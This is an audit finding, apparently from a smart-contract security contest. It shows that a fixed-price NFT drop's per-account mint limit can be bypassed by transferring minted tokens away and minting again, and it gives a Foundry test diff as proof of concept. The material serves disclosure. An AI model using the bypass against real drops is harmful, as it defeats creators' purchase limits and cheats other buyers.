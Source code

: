 _Submitted by itsmeSTYJ, also found by 0x1f8b, 0x52, 0xDjango, auditor0517, byndooa, cccz, Ch\_301, Chom, csanuragjain, KIntern\_NA, ladboy233, nine9, PwnedNoMore, shenwilly, thank\_you, Treasure-Seeker, wagmi, yixxas, and zkhorse_

It is possible to bypass the `saleConfig.limitPerAccount` set by the creator by transferring the NFTs out. For highly sought after NFT drops, a single smart contract can buy out the entire drop simply by calling `mintFromFixedPriceSale` then transferring the NFTs out and repeating the process multiple times.

### [](#proof-of-concept-2)Proof of Concept

Modify the `FixedPriceDrop.sol` Foundry test with the following changes.

    diff --git a/FixedPriceDrop.sol.orig b/FixedPriceDrop.sol
    index 0a6d698..56808f8 100644
    --- a/FixedPriceDrop.sol.orig
    +++ b/FixedPriceDrop.sol
    @@ -71,14 +71,26 @@ contract TestFixedPriceDrop is Test {
     
         /** List for sale **/
         uint80 price = 0.5 ether;
    -    uint16 limitPerAccount = 10;
    +    uint16 limitPerAccount = 3;
         vm.prank(creator);
         nftDropMarket.createFixedPriceSale(address(nftDropCollection), price, limitPerAccount);
     
         /** Mint from sale **/
         uint16 count = 3;
         vm.deal(collector, 999 ether);
    -    vm.prank(collector);
    +    vm.startPrank(collector);
    +    nftDropMarket.mintFromFixedPriceSale{ value: price * count }(address(nftDropCollection), count, payable(0));
    +
    +    // Check that available count for collector is 0
    +    uint256 remaining = nftDropMarket.getAvailableCountFromFixedPriceSale(address(nftDropCollection), collector);
    +    assertEq(remaining, 0);
    +
    +    // Transfer all bought NFTs out
    +    nftDropCollection.transferFrom(collector, address(5), 1);
    +    nftDropCollection.transferFrom(collector, address(5), 2);
    +    nftDropCollection.transferFrom(collector, address(5), 3);
    +
    +    // Buy 3 more NFT
         nftDropMarket.mintFromFixedPriceSale{ value: price * count }(address(nftDropCollection), count, payable(0));
       }
     }

### [](#tools-used)Tools Used

Foundry

